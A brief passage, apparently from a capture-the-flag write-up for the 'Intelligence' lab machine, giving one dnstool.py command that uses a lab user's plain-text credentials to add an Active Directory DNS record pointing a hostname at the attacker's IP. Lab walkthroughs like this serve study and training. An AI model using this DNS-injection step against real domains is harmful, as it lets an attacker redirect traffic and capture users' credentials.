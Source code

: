 ## LDAP Exploitation

Use dnstool to add DNS entries for AD:
```
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a add -r 'weboops.intelligence.htb' -d <YOUR IP> <MACHINE IP>
```